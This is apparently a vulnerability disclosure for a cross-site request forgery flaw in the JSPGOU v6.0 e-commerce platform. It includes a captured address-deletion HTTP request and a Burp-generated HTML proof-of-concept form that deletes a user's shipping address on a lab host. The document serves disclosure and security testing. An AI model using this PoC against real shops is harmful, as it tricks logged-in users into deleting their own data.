






## Information

```c
Exploit Title:JSPGOU v6.0-Cross-site request forgery(CSRF)
Exploit date:02.06.2021
Exploit Author:Al1ex@Heptagram
Vendor Homepage:https://www.jeecms.com/
Affect Version:JSPGOU v6.0
Description:There is an CSRF vulnerability in the receiving address of JSPGOU v6.0. The attacker can construct a malicious page and cheat the user to visit it, thus triggering CSRF vulnerability to delete the receiving address.
```

## How to Exploit

Step 1：Create receiving address with testabc account



Step 2：Click delete address, and use burpsuite to capture packets at the same time



```javascript
GET /shopMemberAddress/address_delete.jspx?id=247 HTTP/1.1
Host: 192.168.174.144:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.77 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.174.144:8080/shopMemberAddress/address_list.jspx
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_eaa57ca47dacb4ad4f5a257001a3457c=1605675257,1605704689,1605871061,1606205262; clientlanguage=zh_CN; JSESSIONID=8161C2853810789D2E03C8D8F5D0FC7C
Connection: close


```

Step 3：Using burpsuite to construct CSRF exp



```javascript
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.174.144:8080/shopMemberAddress/address_delete.jspx">
      <input type="hidden" name="id" value="247" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

Step 4：Drop the packet in burpsuite, and then refresh the page to ensure that the address information is not deleted



Step 5：Visit CSRF malicious page



The receiving address was successfully deleted



## Reference

https://www.jeecms.com/

